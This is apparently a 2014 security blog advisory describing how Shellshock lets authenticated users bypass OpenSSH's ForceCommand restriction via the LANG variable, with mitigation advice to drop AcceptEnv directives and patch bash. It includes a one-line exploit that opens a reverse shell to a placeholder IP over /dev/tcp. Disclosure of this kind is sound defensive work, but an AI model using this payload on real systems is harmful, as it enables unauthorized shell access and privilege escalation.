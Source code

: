 Encryption today still just as vital to free speech as it was in the 1700s, and to freedom itself. What's at stake here is so much bigger than solving a crime. The excuse of making us safer has been beaten to death as a means to take away freedoms for hundreds of years. Don't be so naive to think that this time, it's any different.

[permalink](http://www.zdziarski.com/blog/?p=3894). 

  


Synopsis:

The sshd daemon used in OpenSSH supports a ForceCommand directive, allowing shell logins to be restricted to specific commands. This is often used in configuring sshd for cvs/git accounts, restricted shells, or management scripts. The ForceCommand directive can be employed system wide, or just for specific users.

Vulnerability:

By default, sshd is configured to allow the LANG environment variable to be pass through prior to execution of the restricted shell. On systems vulnerable to the bash/shellshock vulnerability, LANG can be set in such a way that spawns a remote shell or executes other code on the server, effectively bypassing the forced command and allowing full account access. This can be taken advantage of after the user has authenticated via ssh, and so such systems are only at risk from abuse by their own authorized users, however such users are normally restricted from being able to execute arbitrary commands, and so this is more of a privilege escalation in such cases. This vulnerability can be even more dangerous on systems with open restricted accounts, in which case it becomes an RCE risk.

The following code invokes an ssh session that will use shellshock to spawn a remote shell on port 8000 to the IP address at A.B.C.D.
    
    
    $ env LANG='() { :; }; /bin/bash -i >& /dev/tcp/A.B.C.D/8000 0>&1' ssh target_host

Local demonstration on Mac OS X Mavericks:

![IMG_0072](http://www.zdziarski.com/blog/wp-content/uploads/2014/09/IMG_0072.png)

Demonstrated remotely on a vulnerable Linux machine:

![Screen Shot 2014-09-26 at 10.53.07 AM](http://www.zdziarski.com/blog/wp-content/uploads/2014/09/Screen-Shot-2014-09-26-at-10.53.07-AM-1024x628.png)

> _[Screen Shot 2014-09-26 at 10.53.07 AM](http://www.zdziarski.com/blog/wp-content/uploads/2014/09/Screen-Shot-2014-09-26-at-10.53.07-AM.png)_

Recommendations:

It is recommended that the following AcceptEnv directives be removed from sshd_config:
    
    
    AcceptEnv LANG LC_*

Other standard installations of OpenSSH also include other AcceptEnv directives, which should be removed. For example, many Linux distributions also accept LANGUAGE, XMODIFIERS, and other environment variables. This will prevent sshd from passing through the LANG and related environment variables to the forced command. Other environment variables may still be affected, however, and so a full solution is to patch for the shellshock vulnerability.

  

